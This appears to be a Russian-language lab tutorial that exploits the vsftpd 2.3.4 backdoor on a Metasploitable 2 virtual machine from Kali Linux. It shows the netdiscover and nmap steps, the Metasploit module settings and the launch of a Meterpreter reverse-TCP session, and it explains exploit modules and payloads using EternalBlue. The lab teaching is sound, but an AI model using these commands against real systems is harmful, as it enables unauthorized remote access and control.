Для начала запустите VirtualBox и по очереди выберите наши виртуальные машины Metasploitable 2 нажмите кнопку "Запустить" и Kali Linux нажмите кнопку "Запустить" - то есть для работы нам нужны обе виртуальные машины в запущенном состоянии. Как уже говорилось, после старта Metasploitable 2 запросит логин/пароль - в таком состоянии забываем на время об этой машине, главное что бы она осталась включенной. Когда виртуальная машина Kali запросит логин/пароль необходимо ввести kali/kali (это уже сообщалось ранее). Далее в виртуальной машине Kali запускаем терминал. Это все подготовительные действия. Нам нужна ВМ Kali с запущенным терминалом.
Каждый раз при запуске ВМ в VirtualBox может назначить новый IP адрес для ВМ в сети а может оставить IP из предыдущего запуска.
Порядок работы такой:
Поэтому еще раз вводим команду:
ifconfig

Видим что для eth0 IP 10.0.2.3 это совпадает со значением из предыдущего запуска ВМ. Но такое может случаться не всегда.
Из вывода команды видим маска подсети netmask 255.255.255.0.
Именно маска 255.255.255.0 определяет размер сети.
Она означает:
255.255.255.0 = /24
В двоичном виде:
255 .255 .255 .0 11111111 .11111111 .11111111 .00000000
Первые 24 бита (1) — это часть, отвечающая за адрес сети.
Последние 8 бит (0) — это часть, отвечающая за адреса хостов.
Для нашего IP:
IP: 10.0.2.3
Маска: 255.255.255.0
Получаем:
Адрес сети: 10.0.2.0
Доступные хосты: 10.0.2.1 – 10.0.2.254
Broadcast: 10.0.2.255
Таким образом, именно маска 255.255.255.0 позволяет определить, что последние 8 бит используются для нумерации устройств в сети. Зная IP и маску, можно вычислить адрес сети и broadcast.
Теперь у нас есть IP нашей машины и маска подсети, мы можем определить какие еще компьютеры есть в сети и дать команду:
sudo netdiscover -r 10.0.2.0/24
Причем такой момент - в выводе команды netdiscover не пишется IP нашей машины, наша машина в поиске не учитывается. В выводе команды на сриншоте видим, что в нашей сети обнаружило машину 10.0.2.4. Как уже сообщалось адрес 10.0.2.2 это IP для виртуального роутера в нашей сети.

Теперь дадим команду ping что бы проверить "жива/не жива" эта машина:
ping 10.0.2.4

Видим пинг есть пакеты приходят от Metasploitable 2 ее IP 10.0.2.4.
Теперь проерим может быть у этого IP 10.0.2.4 есть свой веб-сайт. В Kali ВМ запустим браузер Mozilla Firefox и в строке адреса введем 10.0.2.4 (скриншот ниже) и видим открылся web-сайт:

Что это может значить? Это значит на нашей ВМ Metasploitable 2 установлен веб-сервер и есть эта веб-страница.
Далее при помощи команды nmap просканируем ВМ Metasploitable 2 что бы понять какие порты открыты и какие версии ПО на этих портах. Даем команду:
nmap -sC -sV 10.0.2.4

Видим сканирование закончилось, мы вернулись в командную строку терминала:

Теперь окно вывода прокрутим вверх и видим что на 21 порту, у нас сервис ftp и его версия vsftpd 2.3.4 (выделено на скриншоте). Эту версию vsftpd 2.3.4 мы будем использовать в метасплоит для поиска и эксплуатации уязвимости.

Далее в терминале Kali Linux даем команду запуска консоли metasploit:
msfconsole
Для начала сообщу что "сплоит" - это разговорный вариант слова "эксплоит" что значит "программа или способ которые используют уязвимость".
Уязвимость (vulnerability) — это ошибка или недостаток в программе, операционной системе или устройстве. Например, переполнение буфера, ошибка проверки прав доступа или SQL-инъекция. Эксплоит (exploit) — это программа, скрипт или даже последовательность действий, которая использует эту уязвимость для достижения определенной цели (например, выполнения произвольного кода, получения доступа или повышения привилегий).
Название Metasploit состоит из двух частей: Meta — приставка греческого происхождения, которая может означать «за пределами», «о самом себе», «высший уровень». В информатике часто используется в значении «относящийся к самому процессу» или «универсальный». Sploit — сокращение от слова exploit (эксплоит).
То есть буквально:
Meta + exploit → Metasploit
Название можно понимать как:
Само слово msfconsole расшифровывается как "метасплоит фреймворк консоль" - то есть команда msfconsole запускает консоль метасплоит, и в командной строке метасплоит мы можем вводить разные команды, что бы производить взлом. В данном случае внизу на скришоте стоит приглашение метасплоит ввиде:
msf >
Теперь мы можем начинать вводить команды метасплоит в эту командную строку.

Как видим после запуска метасплоит появился баннер, а потом ниже командная строка метасплоит. Разработчики сделали так что баннер можно менять (просто для развлечения). Что бы появился другой баннер, просто дайте команду (см.скриншот ниже):
banner

В командной строке msfconsole я несколько раз ввел команду banner, и поменялось изображение. В данный момент баннер показывает слова из фильма Матрица с Киану Ривз "knock, knock, Neo" и нарисовано изображение зайчика - в том моменте в фильме Матрица шла речь о белом зайце, "следуй за белым зайцем" сообщили Нео.
Обновления метасплоит выходят приблизительно один раз в неделю, поэтому сам метасплоит рекомендуеться регулярно обновлять.
Если у вас ОС не Kali а например Fedora или другой Линукс, то есть метасплоит не входит в стандартную поставку в ОС, то для обновления метасплоит необходимо дать команду:
msfupdate
Но для Kali Linux для обновления метасплоит необходимо дать команды из терминала:
sudo apt update sudo apt install metasploit-framework
Эти команды обновят метасплоит до последней версии.
У метасплоит полностью открытый исходный код. Например в поиске Google можно набрать строку "github metasploit" и вам выдаст результаты с исходным кодом метасплоит. Так же внутри самой Kali Linux метасплоит находиться по пути:
cd /usr/share/metasploit-framework

Metasploit в основном написан на языке Ruby. На Ruby вы можете писать свои модули для метасплоит, ложить в папку метасплоит, и это будет работать.
Итак мы немножечко познакомились с метасплоит, и перед этим выполняли сканирование nmap, в результате сканирования получили версию fpt протокола vsftpd 2.3.4.
В командной строке метасплоит даем команду поиска уязвимости по версии ftp:
search vsftpd 2.3.4

В результате работы команды получаем следующий вывод (выделено на скришноше):

Аналогично для поиска уязвимости мы можем дать команду:
search ftp
Или команду:
search mysql
И таким образом вы можете искать уязвимости какие вам нужно.
Здесь exploit/unix/ftp/vsftpd_234_backdoor путь к файлам этого модуля в папке где лежит метасплоит фреймворк.
Далее мы можем использовать найденный модуль, дав команду:
use 0
Или вместо нее аналогично команда:
use exploit/unix/ftp/vsftpd_234_backdoor

Мы получили такое приглашение от модуля:
msf exploit(unix/ftp/vsftpd_234_backdoor) >

Фактически этот модуль - это обратная оболочка (reverse shell) при помощи которой мы получим доступ к нашей машине Metasploitable 2 и будем ею управлять так, как если бы мы находились прямо на этой машине, а не удаленно. Этот доступ мы получим при помощи уязвимости в протоколе ftp версии vsftpd 2.3.4.
Теперь модуль нужно настроить. Каждый модуль имеет настройки которые нужно заполнить. Это выполняет команда set. На приглашение необходимо ввести команду:
show options

Команда show options даст такой вывод и вернется в командную стоку - важное я выделил на скриншоте - это строка LHOST yes:

И прокрутим окно консоли вверх видим строку RHOSTS yes - выделено на скриншоте:

Команда show options показывет настройки модуля - если в поле Required стоит yes - это поле обязательно должно быть заполнено для корректной работы модуля, заполнено при помощи команды set.
Даем команду set, то есть устанавливаем параметры модуля:
set RHOSTS 10.0.2.4
set LHOST 10.0.2.3
В этих командах мы устанавливаем удаленный IP это RHOST - наша машина с Metasploitable 2, и устанавливаем IP нашей Kali Linux это LHOST. На скриншоте видно поле Required и стоит yes напротив RHOST, LHOST - это значит что заполнять эти поля значениями IP нужно обязательно - без этого соединение не будет установлено и модуль работать не будет.
Есть небольшое отличие - в предыдущих версия фреймворка метасплоит в настройках модуля надо было установить RHOST не RHOSTS, но это просто примечание. Так же заметте на скриншотах - важно для установки соединения - в параметрах LPORT 4444 yes уже установлено (локальный порт), и RPORT 21 yes тоже установлено (удаленный fpt порт).

После выполнения команд set RHOST и set LHOST вы можете снова дать комадну show options и увидите что значения установились.
Следующие две команды одинаковы, они обозначают "включи этот модуль"- то есть модуль начинает выполнение, мы устанавливаем удаленный доступ к Metasploitable 2 и получаем командную строку для управления этой удаленной машиной:
exploit
run

Теперь мы увидели приглашение типа:
meterpreter >
Это означает, что эксплойт успешно выполнился и Metasploit получил Meterpreter-сессию с целевой машиной.
Что такое Meterpreter? Meterpreter — это специальная интерактивная командная оболочка (payload), которая работает в памяти компьютера-жертвы, не записывая себя на диск. Она является частью Metasploit и позволяет управлять удаленной системой.
Meterpreter предоставляет множество встроенных команд.
Например, можно получать информацию о системе:
meterpreter > sysinfo
Узнать текущего пользователя:
meterpreter > getuid
Посмотреть процессы:
meterpreter > ps
Получить информацию о сети:
meterpreter > ipconfig
Посмотреть файловую систему:
meterpreter > ls
Перейти в другую папку:
meterpreter > cd /tmp
Показать список доступных команд:
meterpreter > help
К примеру посмотрим информацию о сети команда ipconfig, на скриншоте я выделил IP адрес в сети для удаленной машины, видим, что IP 10.0.2.4 что совпадает с тем IP который нам определила команда netdiscover. Это подтвержает что мы находимся на машине Metasploitable 2.

В Metasploit есть два основных понятия: модуль (Module) и payload. Они работают вместе, но выполняют разные задачи.
1. Что такое модуль (Module). Модуль — это код, который выполняет определенную задачу. В Metasploit существует несколько типов модулей:
Самый известный тип — Exploit. Например:
exploit/windows/smb/ms17_010_eternalblue
Этот модуль знает, как использовать уязвимость EternalBlue.
Сам по себе exploit ничего полезного не делает после успешного использования уязвимости.
2. Что такое Payload. Payload — это код, который запускается после успешного использования уязвимости. Именно payload определяет, что произойдет после взлома. Например:
Пример payload:
windows/x64/meterpreter/reverse_tcp
Он означает:
Как они работают вместе. Допустим, есть уязвимость:
Компьютер │ ▼ Exploit использует уязвимость │ ▼ Уязвимость успешно использована │ ▼ Запускается Payload │ ▼ Получаем Meterpreter
То есть:
Пример.
Предположим, команда выглядит так:
use exploit/windows/smb/ms17_010_eternalblue
Это выбор exploit-модуля.
Затем:
set PAYLOAD windows/x64/meterpreter/reverse_tcp
Это выбор payload.
Когда выполняется:
exploit
Происходит следующее:
Без exploit обычно нельзя попасть внутрь.Без payload exploit просто откроет возможность выполнить код, но не определит, какой именно код будет выполнен.
Все сказанное выше переносим на наш пример.
Когда мы давали команду use 0 мы фактически выбрали номер в списке в результате поиска. Мы так же могли дать команду:
use exploit/unix/ftp/vsftpd_234_backdoor
Здесь мы вибирали эксплоит. Теперь вернемся немножечко вверх, на скриншоте выделено важное:

На скриншоте выделено "Using configured payload cmd/linux/http/x86/meterpreter_reverse_tcp" - что это значит? Почему после команды use (мы выбрали эксплоит, модуль) мы не дали команду set payload?
"Using configured payload cmd/linux/http/x86/meterpreter_reverse_tcp"
Эта часть означает: Metasploit автоматически выбрал payload, который подходит для данного exploit-модуля.
cmd/linux/http/x86/meterpreter_reverse_tcp
Это и есть название выбранного payload.
Его можно разбить на части:
Почему payload выбрался автоматически? Многие exploit-модули имеют payload по умолчанию. Когда мы выполняем:
use exploit/...
Metasploit автоматически подбирает совместимый payload, чтобы тебе не пришлось выбирать его вручную.
При желании его можно заменить на другой совместимый payload командой:
set PAYLOAD <название_payload>
Или посмотреть доступные для данного exploit-модуля варианты:
show payloads
Таким образом, строка:
Using configured payload cmd/linux/http/x86/meterpreter_reverse_tcp
Не означает, что exploit уже выполнился. Она лишь сообщает, что для выбранного exploit-модуля установлен payload cmd/linux/http/x86/meterpreter_reverse_tcp, который будет использован при запуске команды exploit.
То есть в нашем примере мы дали команду выбора модуля (эксплоита):
use 0 или аналог use exploit/unix/ftp/vsftpd_234_backdoor
После этого мы должны (в общем случае) использовать команду выбора payload:
set PAYLOAD cmd/linux/http/x86/meterpreter_reverse_tcp
Но фактически метасплоит выполнил команду set PAYLOAD за нас.
Когда мы выполнили:
msf > use 0
Metasploit сделал примерно следующее внутри себя:
use exploit/... set PAYLOAD cmd/linux/http/x86/meterpreter_reverse_tcp
Но есть один нюанс: он не вводит буквально команду set PAYLOAD, а просто автоматически устанавливает значение параметра PAYLOAD в настройках выбранного модуля. Это можно проверить. После выбора модуля выполнить:
show options или show advanced
Среди параметров увидим что-то вроде:
Payload options (cmd/linux/http/x86/meterpreter_reverse_tcp):
или
PAYLOAD => cmd/linux/http/x86/meterpreter_reverse_tcp
Также можно посмотреть текущее значение командой:
get PAYLOAD
Если же мы хотим использовать другой payload, то автоматический выбор можно переопределить:
set PAYLOAD linux/x86/shell/reverse_tcp
Или указать любой другой совместимый payload.
Полностью закрыть Meterpreter-сессию
quit
Это завершит сессию и закроет соединение.
Команда
exit
Делает выход из msfconsole, то есть завершает работу метасплоит фреймворка.

Продолжение статьи читать ЗДЕСЬ.